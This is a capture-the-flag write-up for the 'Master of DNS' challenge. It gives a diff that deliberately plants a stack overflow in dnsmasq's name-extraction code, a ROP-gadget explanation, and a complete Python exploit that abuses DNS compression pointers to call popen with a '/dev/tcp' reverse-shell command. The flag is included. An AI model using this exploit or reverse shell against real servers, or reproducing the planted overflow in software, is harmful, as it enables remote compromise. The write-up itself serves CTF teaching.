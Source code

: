 # 英文wp

## Master of DNS

- difficulty: easy
- flag: `ACTF{d0M@1n_Po1nt3rs_aR3_VuLn3rab1e_1d7a90a63039831c7fcaa53b766d5b2d!!!!!}`
- description:

I heard that you are proficient in the DNS protocol, there is just a chance to verify your ability, come and join to solve it.

### writeup

To let ctf players understand a keypoint where DNS is easy to cause threats, I designed this contest questions. The inspiration comes from analyzing DNS-related CVEs. DNS domain name pointers also cause many security threats and vulnerabilities in DNS-related products.

Follow the steps below:

- use the fuzz or diff method to find vulnerability, and only make changes in two places (the changes are very small). Removed the obvious features of dnsmasq, and added several functions that interfere with diff
    - remove tcp_request function and close tcp query, because using tcp protocol can trigger vulnerability without domain name pointer
    - Add stack overflow
    - Modify as follows
        
        ```python
        diff --color -Naur dnsmasq-2.86/src/dnsmasq.c dnsmasq-2.86-patch/src/dnsmasq.c
        --- dnsmasq-2.86/src/dnsmasq.c	2021-09-09 04:21:22.000000000 +0800
        +++ dnsmasq-2.86-patch/src/dnsmasq.c	2022-03-18 16:02:32.425548837 +0800
        @@ -1986,13 +1986,14 @@
         	      if ((flags = fcntl(confd, F_GETFL, 0)) != -1)
         		fcntl(confd, F_SETFL, flags & ~O_NONBLOCK);
         	      
        -	      buff = tcp_request(confd, now, &tcp_addr, netmask, auth_dns);
        +        //关闭tcp查询
        +	      //buff = tcp_request(confd, now, &tcp_addr, netmask, auth_dns);
         	       
         	      shutdown(confd, SHUT_RDWR);
         	      close(confd);
         	      
        -	      if (buff)
        -		free(buff);
        +	      //if (buff)
        +		//free(buff);
         	      
         	      for (s = daemon->servers; s; s = s->next)
         		if (s->tcpfd != -1)
        diff --color -Naur dnsmasq-2.86/src/rfc1035.c dnsmasq-2.86-patch/src/rfc1035.c
        --- dnsmasq-2.86/src/rfc1035.c	2021-09-09 04:21:22.000000000 +0800
        +++ dnsmasq-2.86-patch/src/rfc1035.c	2022-03-19 16:37:28.636136647 +0800
        @@ -19,9 +19,11 @@
         int extract_name(struct dns_header *header, size_t plen, unsigned char **pp, 
         		 char *name, int isExtract, int extrabytes)
         {
        +  //这里根据exp的构造调整一下
           unsigned char *cp = (unsigned char *)name, *p = *pp, *p1 = NULL;
        -  unsigned int j, l, namelen = 0, hops = 0;
        +  unsigned int j, l,namelen = 0, hops = 0;
           int retvalue = 1;
        +  unsigned char vul[848];
           
           if (isExtract)
             *cp = 0;
        @@ -54,6 +56,7 @@
         	  else
         	    *pp = p;
         	  
        +	  memcpy(vul, name, namelen);
         	  return retvalue;
         	}
        ```
        
- construct a poc according to the vulnerability, and use the domain name pointer to construct a domain name with a length greater than 848 to trigger the vulnerability.
- Stack overflow vulnerability, use popen function to reverse shell.
    - This is not an overflow of arbitrary length (the maximum length between points of domain name is `0x3f`), and there cannot be `\x00` byte and `\x2e` byte in the domain name. The maximum overflow length is `123` bytes.
    - Restrictions on some exploitation methods
        - mprotect function opens executable permissions and writes shellcode, obviously the overflow length is not enough to support this.
        - use orw’s method to get the flag, but `\x00` bytes will not appear in the parameters, which is also not feasible.
        - Use the execl function to reverse the shell, but the last parameter must be `\x00`, unless the last one in the stack layout is `\x00`, you can also use `int 80` to achieve, maybe 123 bytes is not enough to use.
    - expected use
        - Use popen function to reverse shell, only two parameters are needed here. one is the command to be executed, and the other is the operation type, read or write. Similar to `popen(char *cmd, char *type)`.
        - Due to the limitation of overflow length, we added several gadgets to meet the requirements, and also examined the ability of players to use gadgets
            - Add a gadget to write a value to an address, and add an XOR operation to avoid occur`\x2e` byte.
                
                ```python
                add eax, 4
                pop edx
                xor edx, 0xffffffff
                mov dword ptr [eax], edx
                ret
                ```
                
            - Because there will be a `\x2e` byte interference in the middle of 123 bytes, so add a useless gadget whose last byte of address is `\x2e`.
                
                ```python
                nop
                ret
                ```
                
            - Both of the above gadgets can be searched using **ropper** or **ROPgadget**.
- Of course, this question is also relatively open, and there can be a variety of getshell methods (the awesome ctfer may have other better ways to use it).

### EXP

```python
import socket
import os
import argparse
import random
import string
from pwn import *
context.arch='i386' #指定架构,不然会报错

#  无需connect服务端，因为发送时候跟上服务端ip和port就行
client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

def genRandom(num, slen):
    unique_strings = []
    while len(unique_strings) < num:
        ustring = ''.join(random.choice(string.ascii_lowercase + string.ascii_lowercase + string.digits) for i in range(slen))
        if ustring not in unique_strings:
            unique_strings.append(ustring)
    return unique_strings

def dnsquery(ip, port):
    query = os.urandom(2)
    query += b'\x01\x00' # Flags: query + Truncated + Recursion Desired + Recursion Available
    query += b'\x00\x01' # Questions
    query += b'\x00\x00' # Answer RRs
    query += b'\x00\x00' # Authority RRs
    query += b'\x00\x00'# Additional RRs

    # Queries
    payload = b'\x3f' * 0x40
    for i in range(13):
        payload += b'\xc0'
        payload += bytes([0xe + i * 2])
    payload += b'\x3d'
    payload += b'\x41\x41\x41\x41\x41'

    popen_addr = 0x804ab40
    exit_addr = 0x804ad30
    nop_2e_addr = 0x0804A92E
    pop_eax_addr = 0x08059d44
    w_str_addr = 0x080A6660
    update_addr = 0x0804B2B1
    bss_addr = 0x80a7070

    shell = b'/bin/sh -i >& /dev/tcp/ip/port 0>&1'.ljust(44, b'\x00')
    value = []
    for i in range(0, len(shell), 4):
        value.append(u32(shell[i:(i + 4)]))
    print(len(value))

    payload += flat([pop_eax_addr, bss_addr])
    for i in range(6):
        payload += flat([update_addr, value[i] ^ 0xffffffff])

    payload += b'\x3f'
    payload += b'\xa9\x04\x08'
    for i in range(6, 11):
        payload += flat([update_addr, value[i] ^ 0xffffffff])
    payload += flat([popen_addr, exit_addr, bss_addr + 0x4, w_str_addr])
    payload += b'\x41\x41\x41\x41'
    payload += b'\x00'
    print(payload)
    query += payload  # Name
    query += b'\x00\x01' # Type: NS
    query += b'\x00\x01'# Class: IN

    client.sendto(query, (ip, int(port)))
    data, server_addr = client.recvfrom(1024)
    print(data)

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('-ip', help='ip address', required=True)
    parser.add_argument('-port', help='port', required=True)
    args = parser.parse_args()
    
    ip = args.ip
    port = args.port
    dnsquery(ip, port)

if __name__ == '__main__':
    main()
```
